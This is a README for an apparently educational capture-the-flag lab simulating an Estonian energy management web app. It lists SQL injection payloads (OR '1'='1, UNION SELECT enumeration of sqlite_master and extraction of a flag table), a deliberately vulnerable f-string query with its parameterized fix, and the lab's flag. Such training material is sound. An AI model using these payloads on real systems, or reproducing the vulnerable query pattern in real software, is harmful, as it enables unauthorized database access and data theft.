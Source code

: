 # 🔓 Estonia Energy System Management - SQL Injection Demo

## 🚀 Quick Start

### 1. Start the system
```bash
./start_system.sh
```

### 2. Access the system
- Open: http://localhost:9000
- System is in English
- All functionality is available

### 3. Exploit SQL injection
```bash
python demo_sqli.py
```

## 🎯 Goal

**Get the flag:** `poligon{e5t_3n3r6y_5Y57eM_2025}`

## 📚 Learning Resources

### SQL Injection Guide
- **URL:** http://localhost:9000/sql-guide
- **Features:** Complete guide with payloads, database schema, and tips

### API Endpoints
- **Database Schema:** http://localhost:9000/api/schema
- **Available Tables:** http://localhost:9000/api/tables
- **System Statistics:** http://localhost:9000/api/statistics

## 🔓 SQL Injection Exploitation

### Method 1: Automatic exploitation
```bash
python demo_sqli.py
```

### Method 2: Manual exploitation
1. Go to http://localhost:9000/search
2. Try basic SQL injection: `' OR '1'='1`
3. Test column count: `' UNION SELECT 1,2,3,4,5,6,7 --`
4. Get table names: `' UNION SELECT 1,name,1,1,1,1,1 FROM sqlite_master WHERE type='table' --`
5. Extract the flag: `' UNION SELECT 1,flag_value,1,1,1,1,1 FROM system_flags WHERE flag_name = 'TASK_COMPLETED' --`
6. Look for the flag in the results

### Method 3: Alternative payloads
```sql
-- Basic flag extraction (with correct column count)
' UNION SELECT 1,flag_value,1,1,1,1,1 FROM system_flags WHERE flag_name = 'TASK_COMPLETED' --

-- Get all flags
' UNION SELECT 1,flag_name,flag_value,1,1,1,1 FROM system_flags --

-- Basic SQL injection test
' OR '1'='1
```

## 📁 Project Structure

```
├── start_system.sh          # Start the system
├── demo_sqli.py            # SQL injection demo
├── app/                     # Application code
│   ├── main.py             # FastAPI app
│   ├── routes/             # Route handlers
│   ├── database/           # Database manager
│   └── static/             # Static files
├── templates/              # HTML templates
├── config/                 # Configuration
└── requirements.txt        # Dependencies
```

## 🛡️ Security Notes

**This is a demonstration project with intentional vulnerabilities for educational purposes.**

### Vulnerable Code:
```python
# VULNERABLE (SQL injection)
sql_query = f"SELECT * FROM power_stations WHERE name LIKE '%{query}%'"
```

### Secure Code:
```python
# SECURE (parameterized query)
cursor.execute("SELECT * FROM power_stations WHERE name LIKE ?", (f"%{query}%",))
```

## ⚖️ Legal Notice

**IMPORTANT:** This project is for educational purposes only. Using these techniques on real systems without permission is illegal.

**Use knowledge only for:**
- Learning and education
- Testing your own systems
- Authorized penetration testing
- Security research

---
**Remember: Security is everyone's responsibility!**